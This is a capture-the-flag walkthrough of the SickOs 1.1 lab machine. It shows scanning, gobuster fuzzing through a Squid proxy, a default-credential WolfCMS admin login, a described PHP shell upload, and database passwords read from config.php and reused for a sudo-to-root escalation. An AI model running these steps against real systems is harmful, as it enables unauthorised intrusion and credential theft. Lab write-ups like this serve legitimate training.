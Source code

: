 ## Enumeration

### Host Discovery

Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.32_.
```Console
# arpScan.py -m 2 -r 10.0.2.0/24 
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:57:e4:53 10.0.2.3
[*] 08:00:27:48:ad:44 10.0.2.32
```
### Port Scanning

Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). Tool reported 2 open ports.

```Console
# portScanner.py -i 10.0.2.32
[.../....] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 3128 (unknown) open
```

Banner Grabbing

Let's do some banner grabbing to identify the services running on open ports.

### Banner Grabbing
- Port 22:
```Console
nc -vn 10.0.2.32 22
(UNKNOWN) [10.0.2.32] 22 (ssh) open
SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.1
```
OpenSSH 5.9p1 is running on port 22. So we can enumerate users via bruteforce.
- Port 3128:
```Console
nc -vn 10.0.2.32 3128
(UNKNOWN) [10.0.2.32] 3128 (?) open
test
HTTP/1.0 400 Bad Request
Server: squid/3.1.19
Mime-Version: 1.0
Date: Mon, 12 Sep 2022 18:18:03 GMT
Content-Type: text/html
Content-Length: 3646
X-Squid-Error: ERR_INVALID_REQ 0
Vary: Accept-Language
Content-Language: en
X-Cache: MISS from localhost
X-Cache-Lookup: NONE from localhost:3128
Via: 1.0 localhost (squid/3.1.19)
Connection: close

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>ERROR: The requested URL could not be retrieved</title>
<style type="text/css"><!-- 
 /*
 Stylesheet for Squid Error pages
 Adapted from design by Free CSS Templates
 http://www.freecsstemplates.org
 Released for free under a Creative Commons Attribution 2.5 License
...
...
...
...
...
<div id="footer">
<p>Generated Mon, 12 Sep 2022 18:18:03 GMT by localhost (squid/3.1.19)</p>
<!-- ERR_INVALID_REQ -->
</div>
</body></html>

```
Looks like a web but its a SQUID Proxy running on port 3128. So, let's scan again with the proxy active.

Let's config the proxy with foxy proxy add on. 

![foxyproxy](images/foxyproxy.png)

### Web

Now we have access to a web.

Index looks irrelevant:

![Index](images/index.png)

Let's apply fuzzing with the proxy active:
```Console
gobuster dir -u http://10.0.2.32 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt -o fuzzing --proxy http://10.0.2.32:3128
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.32
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Proxy:                   http://10.0.2.32:3128
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/09/12 21:10:28 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 21]
/index.php            (Status: 200) [Size: 21]
/connect              (Status: 200) [Size: 109]
/robots               (Status: 200) [Size: 45] 
/robots.txt           (Status: 200) [Size: 45] 
/server-status        (Status: 403) [Size: 290]
                                                                                                                                                                                                              
===============================================================
2022/09/12 21:14:12 Finished
===============================================================

```

_Connect_ is a python script weird:
```Python
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```
Robots has a hidden directory that is a CMS named as _WolfCMS_.

![WolfCMS](images/wolfcms.png)

## Exploitation
Browsing for information i was checking this [exploit](https://www.exploit-db.com/exploits/38000) and see that login path is _.../?/admin_, tried admin:admin and it successful. Lucky time.

![Admin](images/admin.png)

You can upload a shell to _?/admin/plugin/file_manager/browse/_ and access to _/public/shell.php_

## Privilege Escalation

In _/var/www/wolfcms/config.php_ there are credentials for mysql:
```Console
cat config.php 
<?php 

// Database information:
// for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
// The path can only be absolute path or :memory:
// For more info look at: www.php.net/pdo

// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
...
...
...
```

The password is not for the root login to the system. After several itents of kernel exploiting and mysql udf, I realize that the password is for the user sickos. 

SickOs can execute all commands as root, therefore, we have the flag.
```Console
www-data@SickOs:/$ su sickos
Password: 
sickos@SickOs:/$ sudo -l
[sudo] password for sickos: 
Matching Defaults entries for sickos on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sickos may run the following commands on this host:
    (ALL : ALL) ALL
sickos@SickOs:/$ sudo ls /root 
a0216ea4d51874464078c618298b1367.txt
sickos@SickOs:/$ sudo cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

